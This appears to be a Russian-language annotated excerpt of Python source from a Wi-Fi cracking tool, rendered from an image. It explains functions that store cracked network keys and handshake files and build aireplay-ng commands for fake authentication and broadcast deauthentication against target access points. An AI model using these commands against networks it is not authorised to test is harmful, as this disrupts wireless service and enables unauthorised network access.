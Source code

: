 ### Функция CheckCrackDB

```python
def CheckCrackDB(BSSID):
    CrackReturn = []
    if os.path.exists("DB/crack.csv"):
        f = open("DB/crack.csv","r")
```
- Проверка наличия MAC-адреса в базе
- BSSID: проверяемый MAC-адрес
- Чтение базы данных из файла

### Функция AddCrackDB

```python
def AddCrackDB(BSSID,Enc,EncKey,ESSID,HS_File,WPS,Ignore):
    if not os.path.exists("DB"):
        os.makedirs("DB")
```
- Добавление новой записи в базу
- Параметры:
  - BSSID: MAC-адрес
  - Enc: тип шифрования
  - EncKey: ключ шифрования
  - ESSID: имя сети
  - HS_File: файл рукопожатия
  - WPS: статус WPS
  - Ignore: флаг игнорирования

### Функция Fake_Auth

```python
def Fake_Auth(TargetMAC,FName):
    global ProcessID
    global InjectionStatus
```
- Выполнение фальшивой аутентификации
- TargetMAC: целевой MAC-адрес
- FName: имя файла для сохранения
- Управление статусом инъекции

```python
    printc("*","Starting Fake Authentication with " + TargetMAC)
    cmd = "aireplay-ng -1 0 -a " + TargetMAC + " -h " + MyMAC + " " + IFace
```
- Запуск процесса аутентификации
- Формирование команды aireplay-ng
- Использование MAC-адреса атакующего

### Функция DeauthBroadcast

```python
def DeauthBroadcast(BSSID,IFace,DeauthCt):
    cmd = "aireplay-ng -0 " + str(DeauthCt) + " -a " + BSSID + " " + IFace + " > /dev/null 2>&1 &"
```
- Широковещательная деаутентификация
- BSSID: MAC-адрес точки доступа
- IFace: сетевой интерфейс
- DeauthCt: количество пакетов
